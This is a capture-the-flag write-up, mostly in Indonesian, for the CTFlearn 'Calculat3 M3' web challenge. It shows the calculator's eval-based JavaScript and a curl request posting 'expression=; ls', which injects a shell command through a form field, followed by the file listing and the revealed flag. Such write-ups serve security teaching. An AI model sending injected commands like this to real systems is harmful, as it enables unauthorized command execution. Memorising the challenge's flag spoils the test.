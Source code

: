 # Calculat3 M3 (80 Points)
Here! http://web.ctflearn.com/web7/ I forget how we were doing those calculations, but something tells me it was pretty insecure.
# Solved
Disini ada source yang mengijinkan kita untuk melakukan eksekusi shell https://web.ctflearn.com/web7/calc.js
```js
function c(val)
{
document.getElementById("d").value=val;
}
function v(val)
{
document.getElementById("d").value+=val;
}
function e() 
{ 
try 
{ 
  c(eval(document.getElementById("d").value)) 
} 
catch(e) 
{
  c('Error') 
} 
}  
```
Sedangkan source dari web tersebut
```html
<input type="text" name="expression" readonly size="18" id="d"></div>
```
<b>READONLY</b>, saya menggunakan cURL untuk menyelesaikannya. <b>Exploit: </b><i>expression=; ls</i>
```
curl 'https://web.ctflearn.com/web7/' \
  -H 'authority: web.ctflearn.com' \
  -H 'cache-control: max-age=0' \
  -H 'upgrade-insecure-requests: 1' \
  -H 'origin: https://web.ctflearn.com' \
  -H 'content-type: application/x-www-form-urlencoded' \
  -H 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36' \
  -H 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'sec-fetch-site: same-origin' \
  -H 'sec-fetch-mode: navigate' \
  -H 'sec-fetch-user: ?1' \
  -H 'sec-fetch-dest: document' \
  -H 'referer: https://web.ctflearn.com/web7/' \
  -H 'accept-language: en-US,en;q=0.9,id;q=0.8' \
  -H 'cookie: _ga=GA1.2.223386054.1598082072; __cfduid=deb41ee7e65a1706b83c543e5e734c7f41600775588; _gid=GA1.2.339889724.1601173366' \
  --data-raw 'expression=; ls' \
  --compressed
```
```html
calc.js
ctf{watch_0ut_f0r_th3_m0ng00s3}
index.php
main.css
main.css
<html>
<head>
  <link rel="stylesheet" href="main.css">
    <script type="text/javascript" src="calc.js"></script>

    </head>
    </body>
<div class="box">
```
Flag : <b>ctf{watch_0ut_f0r_th3_m0ng00s3}</b>